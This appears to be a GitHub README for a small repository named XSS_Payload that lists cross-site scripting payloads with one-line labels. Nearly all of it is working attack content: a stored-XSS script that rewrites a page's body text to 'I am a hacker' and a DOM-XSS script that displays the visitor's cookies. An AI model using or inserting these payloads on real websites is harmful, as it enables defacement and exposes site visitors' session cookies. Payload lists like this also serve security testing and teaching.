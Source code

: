 # XSS_Payload
perfect xss payload stored and reflected and dom and some change in the page

<a target="_blank" rel="noopener noreferrer nofollow" href="https://camo.githubusercontent.com/dc249353b0a6e10635deb6d3414b5d6095886795bf022e14e049b20255207d8b/68747470733a2f2f696d672e736869656c64732e696f2f6769746875622f73746172732f7061796c6f6164626f782f7873732d7061796c6f61642d6c6973743f7374796c653d736f6369616c"><img src="https://camo.githubusercontent.com/dc249353b0a6e10635deb6d3414b5d6095886795bf022e14e049b20255207d8b/68747470733a2f2f696d672e736869656c64732e696f2f6769746875622f73746172732f7061796c6f6164626f782f7873732d7061796c6f61642d6c6973743f7374796c653d736f6369616c" data-canonical-src="https://img.shields.io/github/stars/payloadbox/xss-payload-list?style=social" style="max-width: 100%;"></a>

# Payloads



<code>
<script>document.body.innerHTML = document.body.innerHTML.replace("XSS Playground", "I am a hacker");</script> to change the main web page text  (STORED)
</code>

  <code>

<script>alert(document.cookie);</script> to show your cookie (DOM)


</code>

